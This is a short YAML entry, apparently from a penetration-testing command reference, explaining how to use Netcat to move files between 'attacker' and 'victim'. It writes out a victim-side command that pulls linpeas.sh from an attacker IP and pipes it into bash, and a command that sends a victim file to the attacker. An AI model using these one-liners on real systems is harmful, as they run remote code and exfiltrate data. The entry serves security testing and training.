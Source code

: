 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    Copy from attacker to victim: nc -lvnp 9001 < linpeas.sh (attacker) & nc 10.10.21.14 9001 | bash (victim)
    
    Copy from victim to attacker: nc 10.10.21.14 9001 < file.txt (victim) & nc -lvnp 9001 > file.txt (attacker)


command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

